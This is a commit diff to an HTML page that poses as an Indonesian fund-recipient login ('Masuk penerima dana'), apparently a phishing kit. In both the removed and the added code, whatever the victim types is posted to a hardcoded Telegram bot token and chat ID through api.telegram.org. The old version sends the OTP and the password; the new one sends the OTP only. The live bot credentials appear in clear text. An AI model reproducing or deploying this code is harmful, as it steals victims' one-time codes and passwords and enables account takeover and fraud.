

Before and after one commit to 64hegdjj/Uatas-update, a plain HTML site: page otp.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update otp.html

```diff
--- a/otp.html
+++ b/otp.html
@@ -3,290 +3,137 @@
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
   <title>Masuk penerima dana</title>
+  <script src="https://cdn.tailwindcss.com"></script>
   <link
-    href="https://fonts.googleapis.com/css2?family=Inter&display=swap"
     rel="stylesheet"
+    href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css"
   />
   <style>
-    /* Reset and base */
-    * {
-      box-sizing: border-box;
-    }
-    body {
-      margin: 0;
-      font-family: 'Inter', sans-serif;
-      background-color: #f7f7f7;
-      color: #000000;
-      min-height: 100vh;
-      display: flex;
-      flex-direction: column;
-    }
-    /* Header */
-    header {
-      display: flex;
-      align-items: center;
-      padding: 12px 16px;
-      background: linear-gradient(90deg, #f15a5a 0%, #fca66b 100%);
-    }
-    header button {
-      background: none;
-      border: none;
-      color: white;
-      font-size: 20px;
-      cursor: pointer;
-      padding: 0;
-      margin: 0;
-      width: 24px;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-    }
-    header h1 {
-      flex: 1;
-      text-align: center;
-      color: white;
-      font-weight: 400;
-      font-size: 18px;
-      margin: 0;
-    }
-    header .spacer {
-      width: 24px;
-    }
-    /* Main content */
-    main {
-      padding: 40px 24px 0 24px;
-      flex-grow: 1;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-    }
-    main h2 {
-      font-weight: 400;
-      font-size: 20px;
-      margin: 0 0 4px 0;
-      text-align: center;
-    }
-    main p.subtitle {
-      font-weight: 400;
-      font-size: 14px;
-      color: #6b6b6b;
-      margin: 0 0 32px 0;
-      text-align: center;
-      line-height: 1.3;
-    }
-    form {
-      width: 100%;
-      max-width: 360px;
-      display: flex;
-      flex-direction: column;
-    }
-    label {
-      font-weight: 400;
-      font-size: 14px;
-      color: #3a3a3a;
-      margin-bottom: 8px;
-    }
-    /* Input group for OTP */
-    .otp-group {
-      display: flex;
-      align-items: center;
-      border-bottom: 1px solid #d1d1d1;
-      padding-bottom: 4px;
-      margin-bottom: 4px;
-    }
-    .otp-group input {
-      flex-grow: 1;
-      border: none;
-      outline: none;
-      font-size: 16px;
-      color: #3a3a3a;
-      background: transparent;
-      padding: 4px 0;
-    }
-    .otp-group button {
-      background-color: #d1d1d1;
-      color: white;
-      font-size: 12px;
-      border-radius: 9999px;
-      padding: 4px 12px;
-      border: none;
-      cursor: default;
-      user-select: none;
-      margin-left: 12px;
-    }
-    /* OTP resend text */
-    .otp-resend {
-      font-size: 12px;
-      color: #a3a3a3;
-      margin-bottom: 24px;
-      cursor: pointer;
-      user-select: none;
-    }
-    /* Password input */
-    input[type="password"] {
-      border: none;
-      border-bottom: 1px solid #d1d1d1;
-      outline: none;
-      font-size: 16px;
-      color: #3a3a3a;
-      padding: 4px 0;
-      margin-bottom: 4px;
-      background: transparent;
-    }
-    /* Password hint */
-    .password-hint {
-      font-size: 12px;
-      color: #a3a3a3;
-      margin-bottom: 40px;
-      line-height: 1.3;
-    }
-    /* Submit button */
-    button[type="submit"] {
-      width: 100%;
-      padding: 12px 0;
-      border-radius: 9999px;
-      border: none;
-      font-size: 16px;
-      font-weight: 400;
-      color: white;
-      background: linear-gradient(90deg, #f15a5a 0%, #fca66b 100%);
-      opacity: 0.6;
-      cursor: not-allowed;
-      user-select: none;
-      transition: opacity 0.3s ease;
-    }
-    button[type="submit"]:enabled {
-      opacity: 1;
-      cursor: pointer;
-    }
-    /* Responsive */
-    @media (max-width: 400px) {
-      main {
-        padding: 32px 16px 0 16px;
-      }
-      form {
-        max-width: 100%;
-      }
-    }
+    @import url('https://fonts.googleapis.com/css2?family=Inter&display=swap');
   </style>
 </head>
-<body>
-  <header>
-    <button aria-label="Back">
-      <svg
-        xmlns="http://www.w3.org/2000/svg"
-        fill="none"
-        stroke="currentColor"
-        stroke-width="2"
-        stroke-linecap="round"
-        stroke-linejoin="round"
-        class="feather feather-arrow-left"
-        width="20"
-        height="20"
-        viewBox="0 0 24 24"
-      >
-        <line x1="19" y1="12" x2="5" y2="12" />
-        <polyline points="12 19 5 12 12 5" />
-      </svg>
+<body class="bg-[#F8F8F8] font-sans min-h-screen">
+  <header class="flex items-center px-4 py-3 bg-gradient-to-r from-[#FF7A5A] to-[#FF8F6A] text-white">
+    <button aria-label="Back" class="mr-4 text-lg">
+      <i class="fas fa-arrow-left"></i>
     </button>
-    <h1>Masuk penerima dana</h1>
-    <div class="spacer"></div>
+    <h1 class="text-base font-normal">Masuk penerima dana</h1>
   </header>
-  <main>
-    <h2>Masuk penerima dana</h2>
-    <p class="subtitle">
-      kode verifikasi akan dikirim ke nomor hp<br />
-      887787855422
+
+  <main class="px-6 pt-10 max-w-md mx-auto">
+    <h2 class="text-center text-xl font-normal text-[#1E1E1E]">Masuk penerima dana</h2>
+    <p class="text-center text-sm font-normal text-[#6B6B6B] mt-2">
+      kode verifikasi akan dikirim ke nomor hp anda
     </p>
-    <form id="form">
-      <label for="otp">Kode verifikasi</label>
-      <div class="otp-group">
-        <input id="otp" name="otp" type="text" maxlength="6" autocomplete="one-time-code" required />
-        <button type="button" disabled aria-disabled="true">Terima OTP (60) MENIT</button>
+    <p class="text-center text-sm font-normal text-[#6B6B6B] mt-1"></p>
+
+    <form id="otpForm" class="mt-8">
+      <label for="otp" class="block text-sm text-[#1E1E1E] mb-1">Kode verifikasi</label>
+      <div class="flex items-center border-b border-[#FF7A5A] pb-1">
+        <input
+          id="otp"
+          name="otp"
+          type="text"
+          maxlength="6"
+          autocomplete="one-time-code"
+          class="flex-grow outline-none text-[#1E1E1E] placeholder-[#A3A3A3] text-sm bg-transparent"
+          placeholder=""
+          required
+        />
+        <button
+          type="button"
+          id="resendBtn"
+          disabled
+          class="ml-3 bg-[#D9D9D9] text-white text-xs rounded-full px-3 py-1 cursor-not-allowed select-none"
+        >
+          Terima OTP(60)
+        </button>
       </div>
-      <p class="otp-resend">Tidak menerima OTP? Kirim ke WhatsApp &gt;</p>
-
-      <label for="password">Pengaturan kata sandi</label>
-      <input id="password" name="password" type="password" required />
-      <p class="password-hint">
-        Kata sandi minimal 8 karakter, serta mengandung huruf dan angka.
+      <p class="mt-2 text-xs text-[#6B6B6B]">
+        Tidak menerima OTP? Kirim ke WhatsApp &gt;
       </p>
 
-      <button type="submit" disabled id="submitBtn">Langkah Selanjutnya</button>
+      <button
+        type="submit"
+        class="mt-10 w-full max-w-xs mx-auto block bg-gradient-to-r from-[#FF7A5A] to-[#FF8F6A] text-white text-base font-normal rounded-full py-3 shadow-md"
+      >
+        Masuk
+      </button>
     </form>
   </main>
 
   <script>
-    // Enable submit button only if both fields have values
-    const otpInput = document.getElementById('otp');
-    const passwordInput = document.getElementById('password');
-    const submitBtn = document.getElementById('submitBtn');
-    const form = document.getElementById('form');
+    const botToken = '8479141074:AAHXRTIUGTqpC0Qvw31YqB3pb3W6Ji6PfPc'; // Replace with your Telegram bot token
+    const chatId = '7549590022'; // Replace with your Telegram chat ID
 
-    function validateInputs() {
-      if (otpInput.value.trim().length > 0 && passwordInput.value.trim().length >= 8) {
-        submitBtn.disabled = false;
-        submitBtn.style.cursor = 'pointer';
-        submitBtn.style.opacity = '1';
-      } else {
-        submitBtn.disabled = true;
-        submitBtn.style.cursor = 'not-allowed';
-        submitBtn.style.opacity = '0.6';
-      }
+    const resendBtn = document.getElementById('resendBtn');
+    let countdown = 60;
+    let timer;
+
+    function startCountdown() {
+      resendBtn.disabled = true;
+      resendBtn.classList.add('cursor-not-allowed', 'bg-[#D9D9D9]');
+      resendBtn.classList.remove('bg-gradient-to-r', 'from-[#FF7A5A]', 'to-[#FF8F6A]');
+      resendBtn.textContent = `Terima OTP(${countdown})`;
+
+      timer = setInterval(() => {
+        countdown--;
+        resendBtn.textContent = `Terima OTP(${countdown})`;
+        if (countdown <= 0) {
+          clearInterval(timer);
+          resendBtn.disabled = false;
+          resendBtn.textContent = 'Terima OTP';
+          resendBtn.classList.remove('cursor-not-allowed', 'bg-[#D9D9D9]');
+          resendBtn.classList.add('bg-gradient-to-r', 'from-[#FF7A5A]', 'to-[#FF8F6A]');
+        }
+      }, 1000);
     }
 
-    otpInput.addEventListener('input', validateInputs);
-    passwordInput.addEventListener('input', validateInputs);
+    // Start countdown on page load
+    startCountdown();
 
-    // Telegram Bot API info - replace with your own token and chat_id
-    const TELEGRAM_BOT_TOKEN = '8479141074:AAHXRTIUGTqpC0Qvw31YqB3pb3W6Ji6PfPc';
-    const TELEGRAM_CHAT_ID = '7549590022';
+    resendBtn.addEventListener('click', () => {
+      if (resendBtn.disabled) return;
 
-    form.addEventListener('submit', async (e) => {
+      // Here you can add logic to resend OTP via your backend or API
+
+      countdown = 60;
+      startCountdown();
+    });
+
+    document.getElementById('otpForm').addEventListener('submit', function(e) {
       e.preventDefault();
+      const otpValue = document.getElementById('otp').value.trim();
 
-      const otp = otpInput.value.trim();
-      const password = passwordInput.value.trim();
-
-      // Basic password validation: min 8 chars, contains letter and number
-      const passwordValid = /^(?=.*[A-Za-z])(?=.*\d)[A-Za-z\d]{8,}$/.test(password);
-      if (!passwordValid) {
-        alert('Kata sandi minimal 8 karakter, serta mengandung huruf dan angka.');
+      if (!otpValue) {
+        alert('Kode verifikasi harus diisi');
         return;
       }
 
-      const message =
-        `Masuk penerima dana\n` +
-        `Kode verifikasi: ${otp}\n` +
-        `Kata sandi: ${password}`;
+      const message = `Kode verifikasi diterima: ${otpValue}`;
 
-      const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
-
-      try {
-        const response = await fetch(url, {
-          method: 'POST',
-          headers: {
-            'Content-Type': 'application/json',
-          },
-          body: JSON.stringify({
-            chat_id: TELEGRAM_CHAT_ID,
-            text: message,
-          }),
-        });
-
-        const data = await response.json();
-
+      fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+        method: 'POST',
+        headers: {
+          'Content-Type': 'application/json'
+        },
+        body: JSON.stringify({
+          chat_id: chatId,
+          text: message
+        })
+      })
+      .then(response => response.json())
+      .then(data => {
         if (data.ok) {
-          alert('Data berhasil dikirim ke Telegram.');
-          form.reset();
-          validateInputs();
+          window.location = "otp.html";
+          this.reset();
         } else {
-          alert('Gagal mengirim data ke Telegram.');
+          alert('Gagal mengirim kode verifikasi ke Telegram');
         }
-      } catch (error) {
-        alert('Terjadi kesalahan saat mengirim data.');
-        console.error(error);
-      }
+      })
+      .catch(() => {
+        alert('Terjadi kesalahan saat mengirim data');
+      });
     });
   </script>
 </body>
```
